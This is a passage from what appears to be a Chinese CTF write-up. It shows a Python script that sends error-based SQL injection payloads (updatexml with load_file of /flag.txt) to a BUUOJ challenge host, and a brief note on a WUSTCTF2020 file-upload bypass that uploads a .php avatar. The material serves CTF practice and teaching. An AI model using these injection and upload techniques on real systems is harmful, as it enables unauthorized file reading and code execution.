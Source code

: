 ```python
    requests.post('http://1768f18c-e009-4c7d-b565-c432aa2d7d3a.node4.buuoj.cn:81/confirm.php',data=data)

def change():
    rand = rand_list.pop()
    data = {
    'user_name': rand,
    'phone': rand,
    'address': '123'
    }
    res = requests.post('http://1768f18c-e009-4c7d-b565-c432aa2d7d3a.node4.buuoj.cn:81/change.php',data=data)
    print(res.text)

payload = 'select replace((select load_file("/flag.txt")),"","")'

sql = "' and updatexml(1,concat(0x7e,(" + payload + "),0x7e),1) #"

confirm(sql)
change()
```

update 这里确实能报错, 但是 updatexml 后面需要加注释

root 权限直接读 flag.txt, 绕过长度限制的思路跟上一题一样都是用 replace

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171206923.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171206477.png)

## [WUSTCTF2020]CV Maker

简单文件上传

先注册再登录, 然后上传头像, 后缀改成 php 就行了